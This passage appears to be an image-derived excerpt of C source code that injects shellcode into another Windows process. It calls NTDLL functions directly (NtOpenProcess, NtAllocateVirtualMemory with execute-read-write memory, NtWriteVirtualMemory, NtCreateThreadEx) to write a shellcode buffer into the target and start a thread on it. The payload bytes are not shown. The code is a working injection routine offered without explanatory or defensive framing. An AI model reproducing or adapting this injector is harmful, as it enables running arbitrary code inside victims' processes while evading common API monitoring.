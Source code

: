 ```c
    fn_NtOpenProcess ntOpenProcess = (fn_NtOpenProcess)GetProcAddress(ntDLL, "NtOpenProcess");
    Status = ntOpenProcess(&HandleProcess, PROCESS_ALL_ACCESS, &objAttr, &CID);
    if (Status != STATUS_SUCCESS) {
        printf("Failed to open handle to Process! Error Code: 0x%lx", Status);
        return -1;
    }

    /* NTAllocateVirtualMemory */
    fn_NtAllocateVirtualMemory ntAllocateVirtualMemory = (fn_NtAllocateVirtualMemory)GetProcAddress(ntDLL, "NtAllocateVirtualMemory");
    Status = ntAllocateVirtualMemory(HandleProcess, &RemoteBuffer, 0, &ShellcodeSize, (MEM_COMMIT | MEM_RESERVE), PAGE_EXECUTE_READWRITE);
    if (Status != STATUS_SUCCESS) {
        printf("Failed to Allocate Memory in Process! Error Code: 0x%lx", Status);
        ntClose(HandleProcess);
        return -1;
    }

    /* NTWriteVirtualMemory  */
    fn_NtWriteVirtualMemory ntWriteVirtualMemory =
        (fn_NtWriteVirtualMemory)GetProcAddress(ntDLL, "NtWriteVirtualMemory");
    Status = ntWriteVirtualMemory(HandleProcess, RemoteBuffer, Shellcode, sizeof(Shellcode), &bytesWritten);
    if (Status != STATUS_SUCCESS || bytesWritten != sizeof(Shellcode)) {
        printf("Failed to Write Memory in Process! Error Code: 0x%lx", Status);
        ntClose(HandleProcess);
        return -1;
    }

    /* NtCreateThreadEx   */
    fn_NtCreateThreadEx ntCreateThreadEx =
        (fn_NtCreateThreadEx)GetProcAddress(ntDLL, "NtCreateThreadEx");
    Status = ntCreateThreadEx(&HandleThread, THREAD_ALL_ACCESS, &objAttr, HandleProcess, (RemoteBuffer), NULL, FALSE, 0, 0, 0, 0);
    if (Status != STATUS_SUCCESS) {
        printf("Failed to create Thread! Error Code: 0x%lx", Status);
        ntClose(HandleProcess);
        return -1;
    }

    /* NtWaitForSingleObject  */
    fn_NtWaitForSingleObject ntWaitForSingleObject =
        (fn_NtWaitForSingleObject)GetProcAddress(ntDLL, "NtWaitForSingleObject");
	Status = ntWaitForSingleObject(HandleThread, FALSE, NULL);
	if (Status != STATUS_SUCCESS) {
		printf("Failed to wait for Thread! Error Code: 0x%lx", Status);
		ntClose(HandleThread);
        ntClose(HandleProcess);
		return -1;
	}

	ntClose(HandleThread);
	ntClose(HandleProcess);

    return 0;
}
```
